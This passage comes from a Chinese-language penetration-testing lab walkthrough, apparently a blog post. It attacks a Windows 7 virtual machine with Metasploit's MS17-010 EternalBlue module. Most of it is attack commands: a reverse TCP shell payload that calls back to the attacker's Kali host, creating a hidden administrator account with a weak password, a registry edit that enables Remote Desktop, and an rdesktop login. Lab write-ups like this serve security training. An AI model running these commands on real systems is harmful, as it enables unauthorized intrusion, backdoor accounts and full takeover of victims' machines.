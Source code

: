 5、使用ms17-010渗透模块，对靶机Win7进行渗透，直接使用默认payload

```
msf5 auxiliary(scanner/smb/smb_ms17_010) > use exploit/windows/smb/ms17_010_eternalblue

msf5 exploit(windows/smb/ms17_010_eternalblue) > show options

msf5 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 192.168.217.133
```

选择payload：

```
msf5 exploit(windows/smb/ms17_010_eternalblue) > show payloads

msf5 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/shell/reverse_tcp

msf5 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 192.168.217.129
```

设置好后下面命令开始攻击：

```
msf5 exploit(windows/smb/ms17_010_eternalblue) > exploit
```
成功连接上shell
![在这里插入图片描述](https://img-blog.csdnimg.cn/20191118194439640.png)
6、进一步控制靶机

先将cmd编码格式改为utf8：
```
C:\Windows\system32>chcp 65001
```

利用shell添加账号（test/123456）并添加到管理组  ：

```
C:\Windows\system32>net user test 123456 /add

C:\Windows\system32>net localgroup administrators test /add
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20191118195225725.png)

开启远程桌面功能：
```
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 0 /f
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20191118195838665.png)
远程连接靶机桌面：
```
root@Kali:~# rdesktop 192.168.217.133:3389
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20191118200438550.png)
选择其他用户并用`test/123456`进行登录，此时靶机页面出现如下提示：
![在这里插入图片描述](https://img-blog.csdnimg.cn/20191118200540788.png)
等待一会，成功登录靶机，渗透完成。
![在这里插入图片描述](https://img-blog.csdnimg.cn/20191118200611987.png)

---